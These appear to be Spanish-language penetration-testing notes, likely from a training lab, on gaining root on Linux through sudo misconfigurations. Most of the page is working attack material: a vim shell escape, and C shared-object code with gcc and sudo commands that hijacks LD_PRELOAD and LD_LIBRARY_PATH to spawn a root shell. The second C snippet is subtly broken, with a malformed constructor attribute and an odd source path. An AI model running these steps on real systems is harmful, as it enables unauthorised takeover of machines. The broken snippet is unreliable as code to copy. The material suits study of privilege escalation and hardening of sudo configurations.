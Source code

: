 # Sudo

## Shell escape sequences

Enumere los programas que Sudo permite ejecutar a su usuario:

sudo -l&#x20;

Ejemplo en la maquina :

**`NOPASSWD: /usr/bin/vim (root)`**

Visitar [GTFOBins](https://gtfobins.github.io/)

Como objetivo probare a vim para poder ser root.

Se puede ejecutar

`sudo vim -c ':!/bin/sh'`

O entra en vim y ejecutar `!/bin/sh`&#x20;

Salimos de vim y ya somos root.

## Environment Variables

implica aprovechar la configuración de sudo para heredar ciertas variables de entorno del usuario que ejecuta el comando. Esto puede permitir que un atacante modifique variables de entorno específicas para ejecutar comandos con privilegios elevados que de otro modo no tendría permiso para ejecutar.

Sudo se puede configurar para heredar ciertas variables de entorno del entorno del usuario.

`sudo -l`

`env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH`

`LD_PRELOAD y LD_LIBRARY_PATH` se heredan del entorno del usuario.

`LD_PRELOAD` carga un objeto compartido antes que otros cuando se ejecuta un programa. `LD_LIBRARY_PATH` proporciona una lista de directorios donde se buscan primero las bibliotecas compartidas.

Cree un objeto compartido utilizando el código ubicado en /home/user/tools/sudo/preload.c:

**Código**&#x20;

```
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h> 
void _init() { 
    unsetenv("LD_PRELOAD"); 
    setresuid(0,0,0); 
    system("/bin/bash -p"); 
} 

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Ejecute uno de los programas que se le permite ejecutar a través de sudo, mientras establece la variable de entorno LD\_PRELOAD en la ruta completa del nuevo objeto compartido:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

Debería aparecer un shell de root. Salga del shell antes de continuar. Dependiendo del programa que elija, es posible que también necesite salir de este.

Ejecute ldd contra el archivo de programa apache2 para ver qué bibliotecas compartidas utiliza el programa:&#x20;

`ldd /usr/sbin/apache2`

Cree un objeto compartido con el mismo nombre que una de las bibliotecas enumeradas (libcrypt.so.1) utilizando el código ubicado en library\_path.c:

```
library_path.c 
#include <stdio.h> 
#include <stdlib.h> 
static void hijack() 
attribute((constructor)); 

void hijack() { 
    unsetenv("LD_LIBRARY_PATH"); 
    setresuid(0,0,0); system("/bin/bash -p"); 
} 
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /library_path.c

sudo LD_LIBRARY_PATH=/tmp apache2

```

<mark style="color:red;">**Recursos**</mark>

[Sudo Part-2 – Linux Privelege Escalation - Juggernaut-Sec](https://juggernaut-sec.com/sudo-part-2-lpe/)

[Sudo Binary Relative Path - RedTeam Nation](https://redteamnation.com/sudo-binary-relative-path/)
